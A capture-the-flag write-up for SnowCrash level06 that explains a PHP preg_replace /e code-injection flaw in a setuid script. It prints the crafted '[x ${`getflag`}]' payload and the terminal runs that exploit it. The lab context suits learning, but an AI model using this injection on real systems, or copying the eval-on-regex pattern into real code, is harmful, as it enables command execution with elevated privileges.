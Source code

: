 # SnowCrash Level06

Note: This level made me go crazy. Since I sucked at php.

We have a file and a binary in our home directory.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Lets see what we have on level06.php :
```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
this is so ugly, lets use a php beautifier
```
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
Okii now this is readable.
After some googling I found that we have a reg_replace exploit in the /e attribute.
It execute the code as a vairable.
There are 2 types of exploit in this case.
Since we have the function Y inside the quotes we need to use ${}.
Also we need a regex understanding.
Before that we find that the $y variable should be a file and it gets opened and read.
After some regex hell, we can finally say that the expression inside that file should be :
```
[x ${`phpinfo();`}]
```
I thought it's gonna work but it didn't.
```
level06@SnowCrash:~$ echo '[x ${`phpinfo();`}]' > /tmp/lvl06
level06@SnowCrash:~$ chmod 777 /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
sh: 1: Syntax error: ";" unexpected
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1

```
I almost gave up on this idea but then i found out, that its an sh error not php.
Change that phpinfo(); to getflag, and see the result.
```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
PHP Notice:  Undefined variable: Check flag.Here is your token : 
 in /home/user/level06/level06.php(4) : regexp code on line 1
```